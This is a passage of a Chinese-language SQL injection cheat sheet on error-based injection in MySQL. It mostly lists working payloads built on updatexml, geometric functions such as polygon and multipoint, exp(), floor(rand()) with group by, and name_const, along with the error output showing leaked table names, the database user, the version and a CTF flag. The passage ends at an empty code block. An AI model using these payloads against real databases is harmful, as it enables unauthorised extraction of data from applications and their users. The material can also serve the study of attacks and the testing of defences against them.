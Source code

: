 Insert报错注入：
```sql
INSERT INTO users (id, username, password) VALUES (2,'jack' or updatexml(0,concat(0x7e,(SELECT concat(table_name) FROM information_schema.tables WHERE table_schema=database() limit 0,1)),0) or '', 'hahahaahah');
INSERT INTO security.user (id, uname, passwd,email) VALUES (211,1=updatexml(0,concat(0x7e,(SELECT concat_ws(':',id, uname, passwd) FROM security.user as x limit 0,1)),0) or '', 'ohmygod_is_r00tgrok','sssssss');
```
```SQL
SELECT * from users where id =1 and updatexml(1,make_set(3,'~',(select flag from flag)),1)
[Err] 1105 - XPATH syntax error: '~,flag{abdg678899nsn-dhsns98dj-d'
```
## **2.2 利用几何函数报错**
mysql有些几何函数，例如geometrycollection()，multipoint()，polygon()，multipolygon()，linestring()，multilinestring()，这些函数对参数要求是形如(1 2,3 3,2 2 1)这样几何数据，如果不满足要求，则会报错
```sql
1. geometrycollection()
select * from test where id=1 and geometrycollection((select * from(select * from(select user())a)b));
2. multipoint()
select * from test where id=1 and multipoint((select * from(select * from(select user())a)b));
3. polygon()
select * from test where id=1 and Polygon((select * from(select * from(select user())a)b));
4. multipolygon()
select * from test where id=1 and multipolygon((select * from(select * from(select user())a)b));
5. linestring()
select * from test where id=1 and linestring((select * from(select * from(select user())a)b));
6. multilinestring()
select * from test where id=1 and multilinestring((select * from(select * from(select user())a)b));
7. exp()
select * from test where id=1 and exp(~(select * from(select user())a));
```
这些报错注入函数对数据库的版本有要求，高版本的数据库并不能成功
 
其中Polygon(ls1, ls2, ...) 一个非常好玩的函数，如果传参不是linestring的话，就会爆错，而当如果我们传入的是存在的字段的话，就会爆出已知库、表、列。
```sql
SELECT * FROM users where id = 1 - Polygon(id)
---------------------------------------------------------------------------------------------
[SQL]SELECT * FROM users where id = 1 - Polygon(id)
[Err] 1367 - Illegal non geometric '`awd_bank`.`users`.`id`' value found during parsing
```
## **2.3 concat+rand()+group_by()导致主键重复**
```sql
select count(*) from users group by concat(version(),floor(rand(0)*2));
[SQL]select count(*) from users group by concat(version(),floor(rand(0)*2));
[Err] 1062 - Duplicate entry '5.7.261' for key '<group_key>'

select count(*),concat(table_name,floor(rand(0)*2))x from information_schema.tables group by x;
[SQL]select count(*),concat(table_name,floor(rand(0)*2))x from information_schema.tables group by x;
[Err] 1062 - Duplicate entry 'global_variables0' for key '<group_key>'
```
## **2.4 重复列名报错**
使用列名重复来进行报错注入
name_const报错型注入
```sql
name_const函数要求参数必须是常量，所以实际使用上还没找到什么比较好的利用方式
select* from (select*from(select name_const(version(),0))a join(select name_const(version(),0))b)c
version()改成database()或者user()就不行
 ```
join函数爆列名
```sql
```